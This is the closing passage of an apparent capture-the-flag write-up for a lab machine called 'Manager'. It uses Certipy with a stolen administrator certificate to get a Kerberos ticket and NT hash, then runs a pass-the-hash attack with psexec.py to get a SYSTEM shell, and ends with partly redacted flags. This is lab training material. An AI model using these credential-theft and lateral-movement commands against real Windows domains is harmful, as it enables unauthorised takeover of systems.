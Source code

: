 Lets perform authentication to get the TGT and the hash of Administrative account which we will use further to perform pass-the-hash attack to log into the machine as Administrator

```
➜  manager $ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236 -username Administrator -domain manager.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

Now Let's perform Pass-the-hash attack to log into the Administrative account

```
➜  manager $ psexec.py manager.htb/Administrator@10.10.11.236 -hashes 'aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.11.236.....
[*] Found writable share ADMIN$
[*] Uploading file oysZOmVp.exe
[*] Opening SVCManager on 10.10.11.236.....
[*] Creating service oNbr on 10.10.11.236.....
[*] Starting service oNbr.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Now Grab our root password present at `C:\Users\Administratot\Desktop\root.txt`

# Flags

User.txt : 80d667......6374b....3b508390b263a

Root.txt : 7de01.......228417ff893f......31bd430

# Happy Hacking ❤

